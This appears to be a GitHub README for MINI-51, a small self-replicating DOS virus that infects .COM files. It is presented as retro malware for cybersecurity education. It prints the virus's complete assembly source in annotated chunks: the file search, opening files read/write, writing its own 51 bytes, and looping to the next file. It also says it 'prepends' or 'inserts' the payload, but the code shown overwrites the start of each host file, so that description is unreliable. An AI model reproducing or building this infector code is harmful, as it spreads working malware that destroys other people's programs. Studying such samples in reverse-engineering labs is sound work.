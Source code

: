 
# MINI-51 Virus (DOS File Infector)

## 📄 Summary

The **MINI-51** virus is a small, real-mode DOS file infector that targets `.COM` files. It operates by locating `.COM` files in the current directory and inserting a 51-byte payload into each file, effectively spreading itself across the directory.

---

## 📍 Origin

- **Name**: MINI-51
- **Type**: Parasitic DOS virus
- **Discovered**: Early DOS-era malware (education/research use only)
- **File Type Targeted**: `.COM`
- **Architecture**: x86 real-mode (runs in DOS)

---

## 🔧 How It Works

- Scans the current directory for `.COM` files.
- Opens each matching file with read/write access.
- Writes a 51-byte copy of its own code into the file.
- Closes the file and repeats the process for all matches.


---


## 🖥️ Requirements

- DOS or FreeDOS environment (e.g., VirtualBox, DOSBox)
- NASM or similar assembler (if rebuilding)
- `.COM` files present in the working directory for infection

---

## 📁 File Info

| File         | Description             |
|--------------|--------------------------|
| `MINI-51.asm` | Assembly source code     |
| `MINI-51.com` | Compiled infected payload (optional, not distributed) |

---



## 🧠 Structure

The virus is a simple real-mode COM-style program, starting at memory offset `0100h`, as expected for `.COM` files.

### Assembly Breakdown

---

### 1️⃣ **Find .COM File to Infect**

```asm
MOV DX, OFFSET FILESPEC  ; Set pointer to "*.com"
MOV AH, 4Eh              ; Find first matching file (INT 21h Function 4Eh)
INT 21h                  ; DOS interrupt
JC  DONE                 ; Jump if no match found
```

* Uses `INT 21h / AH=4Eh` to locate the first `.COM` file in the current directory.
* If none are found (`Carry Flag` set), exits.

---

### 2️⃣ **Open First File**

```asm
FIRST_FILE:
MOV DX, 009Eh            ; Pointer to file name (found from previous)
MOV AX, 3D02h            ; Open file for read/write access
INT 21h                  ; DOS function call
JC  NEXT_MATCH           ; If failed, go to next file
```

* Opens the `.COM` file with read/write permissions (`3D02h` in AX).
* If unsuccessful, proceeds to search for the next match.

---

### 3️⃣ **Write Virus Code to File**

```asm
XCHG AX, BX              ; File handle from AX → BX (needed for writing)
MOV DX, 0100h            ; Source buffer (virus payload in memory)
MOV CX, 0033h            ; Number of bytes to write (51 bytes)
MOV AH, 40h              ; Write to file (INT 21h Function 40h)
INT 21h
```

* Writes 51 bytes (0x33) from its own code (starting at offset `0100h`) to the target file.
* This effectively prepends the virus code to the `.COM` file.

---

### 4️⃣ **Close the File**

```asm
MOV AH, 3Eh              ; Close file function
INT 21h
```

* Closes the infected file after writing is complete.

---

### 5️⃣ **Search for More Files**

```asm
NEXT_MATCH:
MOV AH, 4Fh              ; Find next matching file
INT 21h
JNC FIRST_FILE           ; If found, infect next one
```

* Repeats the infection process for all `.COM` files in the directory.

---

### 6️⃣ **Exit**

```asm
DONE:
RET
```

* When all files are processed, returns control to the operating system.

---

### 📂 Data Section

```asm
FILESPEC:
db '*.com'
db 00
```

* This is the string used for file matching: all `.COM` files in the current directory.

---

## 🧪 Technical Summary

| Aspect           | Detail                         |
| ---------------- | ------------------------------ |
| Target OS        | DOS (FreeDOS / MS-DOS)         |
| Infection Target | `.COM` files                   |
| Infection Method | Prepends 51-byte payload       |
| Propagation      | Directory scan                 |
| Size of Payload  | 51 bytes (0x33h)               |
| Persistence      | No. Runs only during execution |

---

## 🔐 Learning Points

* The virus leverages **DOS interrupt services** (`INT 21h`) exclusively — no advanced API calls or stealth.
* It writes **itself** to other files, making it a **self-replicating program**.
* It's an excellent example of **retro malware** suitable for study in **cybersecurity education** or **reverse engineering labs**.

---
